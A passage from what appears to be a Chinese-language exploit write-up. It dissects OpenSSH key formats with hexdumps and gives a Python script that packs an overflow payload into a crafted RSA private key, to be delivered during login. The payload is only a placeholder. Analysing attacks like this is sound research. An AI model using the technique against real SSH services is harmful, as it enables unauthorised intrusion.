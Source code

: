 

## SSH rsa key

因为触发溢出在使用私钥登陆的时候，因此需要将溢出payload打包进私钥里面，由于payload很长，因此需要使用N非常大的数进行生成密钥对，这里使用了16384bit长度的N。

```
ssh-keygen -t rsa -b 16384

-rw-------  1 root    root     12717 Mar 13 13:55 iii
-rw-r--r--  1 root    root      2783 Mar 13 12:54 iii.pub
```

下面简单分析一下ssh key的格式。

公钥文件的内容由3个字段组成（使用空格分隔），其中第二段base64就是公钥本身。

```
$ awk '`{`print $2`}`' ./iii.pub| base64 -d | hexdump -C   
00000000  00 00 00 07 73 73 68 2d  72 73 61 00 00 00 03 01  |....ssh-rsa.....|
00000010  00 01 00 00 08 01 00 aa  83 8c 74 00 f1 a8 cc 2e  |..........t.....|
00000020  9b 01 cd 91 4d 05 68 14  ee 6a 3e 3f d7 f7 84 39  |....M.h..j&gt;?...9|
00000030  ef 48 e4 bd 7e b7 31 01  24 fd a3 4f c5 e3 44 0e  |.H..~.1.$..O..D.|
00000040  8a 0d 51 30 de d8 85 11  4a be b0 5c 11 87 1b b8  |..Q0....J..\....|
00000050  e5 40 48 ea 9f d0 50 7c  34 fd c2 16 ea ed a6 4a  |.@H...P|4......J|
00000060  74 67 7f 0d 63 a9 76 40  8f ac f7 a0 5c 6b ef 9b  |tg..c.v@....\k..|

```

`00000007`表示后面跟着7字节长度，也就是`ssh-rsa`的ASCII。接着的3字节为`010010`也就是65535，常用rsa中的exponent e。如此类推，再后面的是rsa中的N，一个超大的数值。

用同样的方法分析私钥的结构，可以发现私钥中包含了完整的公钥信息，留意下面`ssh-rsa`开始的部分。

```
$ cat iii | grep -v -- '--'|  base64 -d | hexdump -C | more
00000000  6f 70 65 6e 73 73 68 2d  6b 65 79 2d 76 31 00 00  |openssh-key-v1..|
00000010  00 00 04 6e 6f 6e 65 00  00 00 04 6e 6f 6e 65 00  |...none....none.|
00000020  00 00 00 00 00 00 01 00  00 08 17 00 00 00 07 73  |...............s|
00000030  73 68 2d 72 73 61 00 00  00 03 01 00 01 00 00 08  |sh-rsa..........|
00000040  01 00 aa 83 8c 74 00 f1  a8 cc 2e 9b 01 cd 91 4d  |.....t.........M|
00000050  05 68 14 ee 6a 3e 3f d7  f7 84 39 ef 48 e4 bd 7e  |.h..j&gt;?...9.H..~|
00000060  b7 31 01 24 fd a3 4f c5  e3 44 0e 8a 0d 51 30 de  |.1.$..O..D...Q0.|
00000070  d8 85 11 4a be b0 5c 11  87 1b b8 e5 40 48 ea 9f  |...J..\.....@H..|
00000080  d0 50 7c 34 fd c2 16 ea  ed a6 4a 74 67 7f 0d 63  |.P|4......Jtg..c|

```

要完整了解整个私钥的结构有一定困难，不过我们的目标不是构造一个可用的私钥，关键是把溢出payload打包进去。思路是通过替换存储公钥信息部分的内容，类似`new_id_rsa = id_rsa[:priv_offset] + exp + id_rsa[priv_offset + len(exp):]`，把payload存储到私钥中，使用这个私钥进行登录时，payload就可以传入到authkeys中。

写一个脚本进行私钥构造：

```
# cat iii | grep -v -- '--'|  base64 -d &gt; pri.bin
org_key = open('pri.bin','rb').read() 
print len(org_key)
import base64
exp = base64.b64decode('base64exp')
print len(exp)
new_key = org_key[:0x2b] + exp + org_key[0x2b+len(exp):]
print len(new_key)
f = open('new_key','wb')
f.write(new_key)
f.close()
```
